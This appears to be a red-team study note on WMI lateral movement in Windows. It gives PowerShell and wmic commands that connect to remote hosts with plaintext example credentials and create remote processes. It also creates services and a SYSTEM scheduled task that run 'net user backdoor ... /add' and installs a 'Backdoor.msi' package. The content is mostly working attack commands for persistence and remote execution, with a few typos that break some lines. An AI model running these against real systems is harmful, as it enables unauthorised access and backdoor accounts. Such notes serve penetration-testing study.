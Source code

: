 [[Windows/Windows Internals/WMI]]
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
	CommandLine = $command;
} 
```
### WMIC
```powershell
# For legacy system using wmic.exe
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
	Name = "MyService";
	DisplayName = "MyService";
	PathName = "net user backdoor password /add";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete
```
# Remote Schedule Task Creation
- Required Group Membership: Administrators
### Poweshell
```powershell
# Create command and argument
$Command = "cmd.exe"
$Args = "/c net user backdoor pass /add"

# Create and Run schedule task
$Action = New-ScheduleTaskAction -CimSession $session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "backdoor"
Start-ScheduledTask -CimSession $Session -TaskName "backdoor"

Unregister-ScheduledTask -CimSession $session -TaskName "backdoor"
```
# Installing MSI packages
- MSI packages can be installed using WIM using the `Win32_Product` class's static `Install` method 
### Powershell
```powershell
Invoke-CimMethod -CimSession $session -Class Win32_Product -MethodName Install -Arugments @{
	PackageLocation = "C:\Windows\Backdoor.msi";
	Options = "";
	AllUsers = $false;
}
```
### WMIC
```Powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```